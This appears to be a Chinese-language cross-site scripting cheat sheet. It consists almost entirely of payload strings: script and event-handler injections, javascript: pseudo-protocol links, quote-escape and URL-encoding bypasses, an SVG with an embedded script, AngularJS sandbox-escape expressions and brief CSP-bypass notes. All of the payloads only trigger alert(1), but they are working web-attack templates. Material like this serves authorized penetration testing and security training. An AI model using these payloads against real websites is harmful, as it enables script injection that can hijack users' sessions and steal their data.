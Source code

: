⚠️要么闭合标签，要么闭合引号⚠️  

## 常用POC:
- `"><script>alert(1)</script>`  
- `<img src=1 onerror=alert(1)>`  
- `" autofocus onfocus=alert(1) x="`  
- `<a href="javascript:alert(1)">`  
- `javascript:alert(1);`  
伪协议
- `"><svg onload=alert(1)>`  
- `<span title="" onmouseover="alert(/XSS/)">" onmouseover="alert(/XSS/)</span>`  
- `'-alert(1)-'`  
单引号作用：跳出前一个js

## 编码绕过POC：
- `&apos;-alert(1)-&apos;`  
- `';alert(1)//`
- 当单引号被转义时  
` \\';alert(1)// `
- 有引号处理文字时,如：var input='payload';  
` ${alert(1)} `
- url编码  
` %27%2dalert(1)%2d%27 `

## 事件执行触发POC:
- accesskey:设置快捷键
`<a href="url" accesskey="c">alert()</a>` ctrl+shift+c触发
- mouseover:鼠标移动
`<span title="" onmouseover="alert(1)">" onmouseover="alert(1)"</span>`
- click:单击  
`<span title="" onclick="alert(1)">" onclick="alert(1)"</span>`

## SVG
```
<svg version="1.1" xmlns="http://www.w3.org/2000/svg">
	<circle cx="100" cy="50" r="40" stroke="black" stroke-width="2" fill="red" />
	<script>alert(1)</script>
</svg>
```

## DOM XSS出现位置函数
`document.write、location.search、eval（）、location、someDOMElement.innerHTML/uterHTML/insertAdjacentHTML/onevent`

## 沙箱逃逸
- `toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1`
- `<input autofocus ng-focus="$event.path|orderBy:'[].constructor.from([1],alert)'">`
- `{{$on.constructor('alert(1)')()}}`

## 绕过CSP
- 悬空标记注入，指定url地址后面用？跟参数
- 修改响应包中CSP指令，覆盖现有规则script-src等